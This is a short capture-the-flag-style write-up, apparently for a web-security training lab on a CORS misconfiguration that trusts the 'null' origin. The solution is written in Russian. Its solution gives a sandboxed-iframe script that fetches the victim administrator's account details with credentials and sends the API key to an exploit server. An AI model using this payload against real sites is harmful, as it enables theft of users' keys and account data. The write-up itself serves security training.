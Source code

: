 # CORS vulnerability with trusted null origin
APPRENTICE

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

## Решение
Приём ["Null Origin"](https://book.hacktricks.xyz/pentesting-web/cors-bypass#exploiting-the-null-origin) через iframe в песочнице:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    fetch('https://0ad700dc03cf9ed586aed47a008f006b.web-security-academy.net/accountDetails', { credentials:'include' })
        .then(r => r.json())
        .then(j => {
            fetch(`https://exploit-0a39005203939ee4861ad3f201ea0018.exploit-server.net/exploit?x=${j.apikey}`)
        })
</script>"></iframe>
```
Deliver exploit to victim -> Access log. В логах будет ключ. Остаётся отправить его на проверку через "Submit solution". Задание выполнено.
